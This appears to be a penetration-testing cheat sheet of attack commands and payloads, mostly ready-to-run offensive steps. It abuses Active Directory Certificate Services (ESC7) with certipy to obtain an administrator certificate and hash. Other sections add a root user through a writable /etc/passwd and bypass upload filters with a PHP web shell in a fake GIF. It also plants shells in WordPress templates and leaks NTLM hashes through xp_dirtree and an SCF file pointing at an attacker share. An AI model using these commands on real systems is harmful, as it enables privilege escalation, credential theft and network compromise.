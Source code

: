 # Active Directory

## Certificate Services

### ESC7 Scenario

Add user as an officer to manage and issue certificates
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -add-officer username -debug`

Enable the SubCA template on the CA
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -enable-template subca`

List templates to confirm SubCA addition
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -list-templates`

Request cert, get request ID and private key
`Type 'y' to save private key when prompted!!!`
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -template SubCA -upn administrator@domain`

Use CA officer perms to manually issue failed cert
`certipy-ad ca -u username@domain -p 'password' -dc-ip ipaddress -ca caname -issue-request requestid`

Retrieve the issued cert
`certipy-ad req -u username@domain -p 'password' -dc-ip ipaddress -ca caname -retrieve requestid`

Ensure clock synced with DC
`sudo ntpdate dcipaddress`

Get TGT and dump admin hash!
`certipy-ad auth -pfx administrator.pfx`

# /etc/passwd Writable

Create New Root User
```
openssl passwd passwordofchoice > generatedhash

Create new user via append to /etc/passwd:
echo "username:generatedhash:0:0:userdisplayname:/root:/bin/bash" >> /etc/passwd
```

# File Upload Bypass

## General Notes

Brute Force Relevant File Extensions
```
Get a list of all file extensions used by or associated with the web server and it's language or tech stack.

For example, IIS/ASP will contain things like .config, .aspx, etc.
Official Microsoft Reference:
https://msdn.microsoft.com/en-us/library/2wawkw1c.aspx

Use Burp Suite Intruder to brute force uploading a file with all the different extensions.
```

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
```
Convert between Content Types:
application/x-php
and
image/jpeg
etc.
```

Use Fake Gif with File Header (file.gif)
```
GIF89;
<?php echo system($_REQUEST['c']); ?>
```

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SQL Server (MS SQL)

Capture hash using xp_dirtree and responder
```
sudo responder -I tun0 -v

SQL> exec master.sys.xp_dirtree '\\ipaddress\anyshare', 1, 1
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```
